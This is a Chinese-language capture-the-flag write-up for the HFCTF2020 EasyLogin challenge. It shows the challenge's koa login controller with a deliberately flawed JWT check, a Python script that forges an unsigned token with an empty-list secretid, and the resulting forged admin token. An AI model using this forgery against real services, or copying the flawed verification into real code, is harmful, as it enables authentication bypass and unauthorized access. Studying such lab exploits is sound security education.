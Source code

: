 # \[HFCTF2020]EasyLogin

## \[HFCTF2020]EasyLogin

## 考点

* koa框架代码审计
* JWT特性

## wp

F12在`/static/app.js`中看到提示koa框架，百度一下找到[koa的框架结构](https://www.cnblogs.com/wangjiahui/p/12660093.html)

尝试直接访问app.js可以得到koa项目入口

![](<../.gitbook/assets/image (20) (1) (1) (1).png>)

在`/static/app.js`中可以看到访问的都是api，所以这里的处理逻辑应该都是api，尝试出来代码位置是`/controllers/api.js`，代码放最后。可以看到它有一个获取token的过程

```javascript
const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization
```

在登录处抓包，可以发现登录时都会加上一个`authorization`参数

![](<../.gitbook/assets/image (15) (1) (1).png>)

去[`https://jwt.io/`](https://jwt.io)可以看到解码后的内容

![](<../.gitbook/assets/image (18) (1) (1) (1) (1).png>)

把`alg`改成`none`，JWT中当`alg`为`none`，`secret`为空时，后端将不执行签名验证。

用户名密码改成`admin`，至于`secretid`，它的处理在如下代码，先从jwt里面获取`secretid`，如果`secretid`未定义、或者是空、或者小于0、或者大于等于18(`global.secrets.length`)，就会抛出错误，下一步是到全局列表变量`global.secrets`中获取`secretid`对应的下标，再去jwt验证。

参数比较多，理一下，`secret`是一个长度18的字符串，`secretid`是一个0-18的数字，`secrets`是一个列表。

```javascript
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
  throw new APIError('login error', 'no such secret id');
 }
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
```

如果把`secretid`改成`[]`，让`secretid`为空列表，`secret`也会变成空，这样就绕过了jwt的验证

```python
import jwt
token = jwt.encode(
{
  "secretid": [],
  "username": "admin",
  "password": "admin",
  "iat": 1640163432
},
algorithm="none",key="")

print(token)
```

payload

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6ImFkbWluIiwiaWF0IjoxNjQwMTYzNDMyfQ.
```

![](<../.gitbook/assets/image (16) (1) (1).png>)

controllers/api.js

```javascript
const crypto = require('crypto');
const fs = require('fs')
const jwt = require('jsonwebtoken')

const APIError = require('../rest').APIError;

module.exports = {
    'POST /api/register': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || username === 'admin'){
            throw new APIError('register error', 'wrong username');
        }

        if(global.secrets.length > 100000) {
            global.secrets = [];
        }

        const secret = crypto.randomBytes(18).toString('hex');
        const secretid = global.secrets.length;
        global.secrets.push(secret)

        const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});

        ctx.rest({
            token: token
        });

        await next();
    },

    'POST /api/login': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || !password) {
            throw new APIError('login error', 'username or password is necessary');
        }

        const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;

        const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;

        console.log(sid)

        if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
            throw new APIError('login error', 'no such secret id');
        }

        const secret = global.secrets[sid];

        const user = jwt.verify(token, secret, {algorithm: 'HS256'});

        const status = username === user.username && password === user.password;

        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },

    'GET /api/flag': async (ctx, next) => {
        if(ctx.session.username !== 'admin'){
            throw new APIError('permission error', 'permission denied');
        }

        const flag = fs.readFileSync('/flag').toString();
        ctx.rest({
            flag
        });

        await next();
    },

    'GET /api/logout': async (ctx, next) => {
        ctx.session.username = null;
        ctx.rest({
            status: true
        })
        await next();
    }
};
```

## 小结

1. JWT组成
2. JWT中当`alg`为`none`，`secret`为空时，相当于不执行签名验证。
